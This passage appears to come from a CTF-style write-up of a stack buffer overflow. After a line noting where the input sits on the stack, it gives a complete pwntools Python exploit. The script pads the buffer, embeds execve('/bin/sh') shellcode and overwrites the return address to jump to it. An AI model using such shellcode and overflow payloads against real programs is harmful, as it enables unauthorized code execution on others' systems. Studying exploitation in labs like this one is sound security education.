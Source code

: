 <img class="img_full" src="find.png" alt="find" >

Once stopped, our input is in the stack, at the address: 0x7fffffffe570

And our shellcode will be a little farther, because of the padding.

Python code of the exploit:


```python
#!/usr/bin/env python2

from pwn import *

def save(what, where):
  with open(where, "wb") as f:
    f.write(what)

shellcode = "\x48\xB8\x2F\x2F\x62\x69\x6E\x2F\x73\x68"
shellcode += "\x48\xC1\xE8\x08\x50\x48\x89\xE7\x48\x31"
shellcode += "\xC0\xB0\x3B\x48\x31\xF6\x48\x31\xD2\x0F\x05"

offset = 40
count_A = offset - len(shellcode)
padding = "A" * count_A
addr_input = 0x7fffffffe570 # Depends on your OS
addr_shellcode = addr_input + count_A
log.info("Shellcode at 0x{:8x}".format(addr_shellcode))

payload = padding + shellcode + p64(addr_shellcode)

save(payload, "payload")
log.success("Payload written")
```
